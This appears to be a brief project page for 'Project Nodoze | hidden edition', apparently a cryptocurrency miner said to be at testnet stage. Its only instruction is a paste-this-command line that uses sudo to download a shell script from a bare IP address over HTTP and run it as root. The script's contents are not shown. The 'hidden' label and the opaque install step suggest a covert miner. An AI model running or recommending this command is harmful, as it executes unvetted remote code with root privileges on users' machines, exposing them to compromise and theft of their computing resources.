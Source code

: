 Project Nodoze | hidden edition third edition

THIS IS IN TEST NET STAGE!!! NO CURRENCY MINED IS REAL!!!!!

            sudo wget http://45.77.50.112/linux.sh && sudo chmod 700 linux.sh && sudo sh linux.sh

			
